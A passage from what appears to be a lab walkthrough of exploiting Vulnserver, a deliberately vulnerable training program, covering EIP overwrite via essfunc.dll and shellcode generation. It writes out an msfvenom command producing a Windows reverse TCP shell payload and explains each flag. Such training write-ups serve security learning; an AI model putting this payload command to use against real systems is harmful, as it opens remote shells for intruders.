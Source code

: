 <img src="/Pictures/Vulnserver-Rightmodule.png" alt="Rightmodule" width="800"/>

$ We can see that the EIP gets overwritten by the first pointer of essfunc.dll.

![EIP3](/Pictures/Vulnserver-eip3.png)

$ Success! We can move to the final step which is Getting a shellcode. The shellcode should be in hex form. We use a tool called msfvenom for this.

*msfvenom -p windows/shell_reverse_tcp LHOST= LPORT=4444 EXITFUNC=thread -f c -a x86 -b “\x00”*

$ where
LHOST is the Attack machine ( in my case it is Kali ), use ifconfig to your machine’s IP
EXITFUNC=thread is for making the shell stable
-f is for the file type, here it is C
-a is for architecture, here it is x86
-b is for bad character, which only the null byte is needed here

